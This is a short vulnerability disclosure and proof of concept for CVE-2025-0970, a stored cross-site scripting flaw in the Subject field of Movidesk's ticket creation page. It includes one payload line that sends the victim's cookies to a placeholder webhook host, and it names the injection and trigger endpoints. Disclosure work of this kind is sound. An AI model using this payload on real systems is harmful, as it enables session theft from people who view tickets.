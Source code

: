# CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**
**OBS: FOR THIS EXPLOIT, YOU HAVE TO BE AUTHENTICATED!**


## POC

This vulnerability resides in the /Ticket/Create page in Subject parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Ticket/Create

---

## Reference

https://www.movidesk.com/